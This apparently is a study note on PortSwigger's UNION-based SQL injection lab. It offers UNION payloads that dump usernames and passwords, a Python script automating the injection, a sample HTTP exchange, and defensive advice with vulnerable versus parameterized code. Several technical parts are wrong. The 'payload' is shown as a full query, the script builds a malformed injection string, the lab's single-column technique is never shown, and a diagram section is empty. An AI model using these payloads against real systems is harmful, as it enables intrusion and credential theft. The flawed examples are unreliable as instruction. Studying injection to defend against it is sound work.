

## SQL Injection UNION Attack

A UNION-based SQL Injection attack is a specific type of SQL Injection where the attacker uses the `UNION` operator to combine the results of two or more SELECT statements. This technique is often used to retrieve data from different tables or columns.

### Understanding the UNION Operator

The `UNION` operator is used to combine the result sets of two or more SELECT statements. Each SELECT statement within the `UNION` must have the same number of columns and compatible data types.

For example, consider the following SQL query:

```sql
SELECT column1, column2 FROM table1
UNION
SELECT column1, column2 FROM table2;
```

This query combines the results of two SELECT statements, returning a single result set containing all rows from both tables.

### Example of a UNION-Based SQL Injection Attack

Let's consider a scenario where an attacker wants to retrieve usernames and passwords from a database using a UNION-based SQL Injection attack. Suppose the original query is:

```sql
SELECT username, password FROM users WHERE id = 'user_input';
```

An attacker could inject the following payload:

```sql
SELECT username, password FROM users WHERE id = '1' UNION SELECT username, password FROM users;
```

This would result in the following combined query:

```sql
SELECT username, password FROM users WHERE id = '1'
UNION
SELECT username, password FROM users;
```

The result would be a list of all usernames and passwords from the `users` table.

### Lab Exercise: SQL Injection UNION Attack

In this lab exercise, we will demonstrate how to perform a UNION-based SQL Injection attack to retrieve multiple values in a single column. We will use a Python script to automate the process.

#### Step-by-Step Guide

1. **Identify the Vulnerable Parameter**: Identify the parameter in the web application that is vulnerable to SQL Injection.
2. **Craft the Payload**: Construct the SQL Injection payload using the `UNION` operator.
3. **Automate the Attack**: Write a Python script to automate the attack and extract the desired data.

##### Identifying the Vulnerable Parameter

Suppose the web application has a search feature that takes a user ID as input. The original query might look like this:

```sql
SELECT username, password FROM users WHERE id = 'user_input';
```

We need to determine if the `id` parameter is vulnerable to SQL Injection.

##### Crafting the Payload

To craft the payload, we need to ensure that the number of columns and data types match between the original query and the injected query. For example:

```sql
SELECT username, password FROM users WHERE id = '1' UNION SELECT username, password FROM users;
```

This payload combines the results of two SELECT statements, ensuring that the number of columns and data types match.

##### Automating the Attack

We can automate the attack using a Python script. Here is a sample script:

```python
import requests

def sql_injection_union_attack(url, vulnerable_param):
    # Craft the payload
    payload = f"{vulnerable_param}='1' UNION SELECT username, password FROM users"
    
    # Send the request
    response = requests.get(url, params={vulnerable_param: payload})
    
    # Extract and print the results
    print(response.text)

# Example usage
url = "http://example.com/search"
vulnerable_param = "id"
sql_injection_union_attack(url, vulnerable_param)
```

### Full HTTP Request and Response

Here is a complete example of the HTTP request and response:

**HTTP Request:**

```http
GET /search?id='1' UNION SELECT username, password FROM users HTTP/1.1
Host: example.com
User-Agent: Python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

**HTTP Response:**

```http
HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 00:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Connection: close

<!DOCTYPE html>
<html>
<head>
<title>Search Results</title>
</head>
<body>
<h1>Usernames and Passwords</h1>
<ul>
<li>username1: password1</li>
<li>username2: password2</li>
<!-- More results -->
</ul>
</body>
</html>
```

### Mermaid Diagram: Attack Flow



### Common Pitfalls and Detection

#### Common Pitfalls

- **Improper Input Validation**: Failing to validate user input can lead to SQL Injection vulnerabilities.
- **Hardcoded SQL Queries**: Using hardcoded SQL queries without parameterized statements can expose the application to SQL Injection.
- **Insufficient Error Handling**: Poor error handling can reveal sensitive information about the database structure.

#### Detection

- **Static Code Analysis**: Tools like SonarQube, Fortify, and Veracode can detect SQL Injection vulnerabilities in the code.
- **Dynamic Analysis**: Tools like Burp Suite, OWASP ZAP, and SQLMap can test for SQL Injection vulnerabilities during runtime.
- **Logging and Monitoring**: Monitoring logs for unusual SQL queries can help detect potential SQL Injection attempts.

### How to Prevent / Defend Against SQL Injection

#### Secure Coding Practices

- **Use Prepared Statements**: Prepared statements with parameterized queries ensure that user input is treated as data rather than executable code.
- **Input Validation**: Validate and sanitize user input to prevent malicious SQL code from being executed.
- **Least Privilege Principle**: Ensure that the application connects to the database with the least privilege necessary to perform its tasks.

#### Secure Configuration

- **Disable Unnecessary Features**: Disable unnecessary features in the database that could be exploited, such as stored procedures or triggers.
- **Enable Query Logging**: Enable logging of SQL queries to monitor and detect suspicious activity.
- **Use Web Application Firewalls (WAF)**: WAFs can help detect and block SQL Injection attacks.

#### Secure Code Example

Here is an example of secure code using prepared statements:

**Vulnerable Code:**

```python
import sqlite3

def get_user_data(user_id):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    query = f"SELECT * FROM users WHERE id = '{user_id}'"
    cursor.execute(query)
    result = cursor.fetchall()
    conn.close()
    return result
```

**Secure Code:**

```python
import sqlite3

def get_user_data(user_id):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    query = "SELECT * FROM users WHERE id = ?"
    cursor.execute(query, (user_id,))
    result = cursor.fetchall()
    conn.close()
    return result
```

### Practice Labs

For hands-on practice with SQL Injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs to practice various types of SQL Injection attacks.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security techniques.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that contains a large variety of security vulnerabilities.
- **WebGoat**: An interactive training application designed to teach developers about web application security.

By thoroughly understanding and practicing these concepts, you can effectively defend against SQL Injection attacks and ensure the security of your web applications.

---

This expanded chapter provides a comprehensive overview of SQL Injection, focusing on UNION-based attacks. It includes detailed explanations, real-world examples, code snippets, and practical advice on how to prevent and defend against such attacks.

---
<!-- nav -->
[[Web Security (PortSwigger)/02-SQL Injection/07-Lab 6 SQL injection UNION attack retrieving multiple values in a single column/01-Introduction to SQL Injection|Introduction to SQL Injection]] | [[Web Security (PortSwigger)/02-SQL Injection/07-Lab 6 SQL injection UNION attack retrieving multiple values in a single column/00-Overview|Overview]] | [[03-SQL Injection Union Attack Retrieving Multiple Values in a Single Column|SQL Injection Union Attack Retrieving Multiple Values in a Single Column]]
